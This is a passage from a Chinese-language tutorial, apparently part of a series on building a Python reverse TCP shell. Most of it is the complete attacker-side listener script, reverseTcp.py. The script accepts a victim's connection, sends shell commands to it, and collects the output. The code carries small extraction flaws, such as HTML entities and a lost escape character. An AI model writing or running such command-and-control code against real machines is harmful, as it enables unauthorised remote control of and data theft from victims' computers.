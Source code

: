 正如预期，客户机控制台是空的，因为我们没有打印任何东西。预期编写完成后的截图如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b313d15ed3c92d13.png)

到此我们已经将基础的反向TCP连接代码编写完成了，现在将继续编写些基础函数来帮助我们把程序界面改善，例如给Shell界面添加颜色。<br>
这份代码在Windows上也可以运行，但Windows平台不是本系列教程的首选平台。

## 1.3 实践部分

**reverseTcp.py**

```
# -*- coding: utf-8 -*-
import socket,subprocess as sp,sys                    # 导入subprocess，socket模块

# 1）监听信息
host = sys.argv[1]                                   # 攻击者地址，通常留空''
port = int(sys.argv[2])                              # 攻击者主机端口

# 2）套接字部分
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) # 安装套接字
s.bind((host,port))                                  # 绑定套接字
s.listen(100)                                        # 最大连接数:100
conn,addr  = s.accept()                              # 接收客户端连接

# 3）输出连接信息
print "[+] Conection Established from: %s" % (str(addr[0]))
                                                     # 打印攻击者的连接信息
# 4）接收输出
while 1:                                            # 运行死循环初始化反向的连接
    command = raw_input("#&gt; ")                      # 服务器输入
    # 5）if判断-1
    if command != "exit()":                         # 如果命令不是exit()，那就继续执行
        # 6）if判断-2
        if command == "": continue                  # 命令如果为空，循环这个函数
        # 7）发送、接收命令
        conn.send(command)                          # 发送命令到客户端
        result = conn.recv(1024)                    # 接收并输出
        # 8） 处理接收结果
        total_size = long(result[:16])              # 获取返回数据的大小,取出前16位的值
        result = result[16:]                        # 接收数据的结果，取16位之后的值
        # 9） 处理数据
        while total_size &gt; len(result):             # 循环函数
            data = conn.recv(1024)                  # 每次接收1024的数据，如果发送的数据大于现在接收的数据
            result += data                          # 循环接收并且拼接起来
        # 10）打印结果过滤换行符
        print result.rstrip("n")                   # 过滤掉换行符
    else:
        conn.send("exit()")                         # 发送客户端关闭的消息
        print "[+] shell Going Down"                # 本地退出提示
        break
# 11）出现任何故障关闭套接字
s.close()                                           # 关闭网络套接字
```
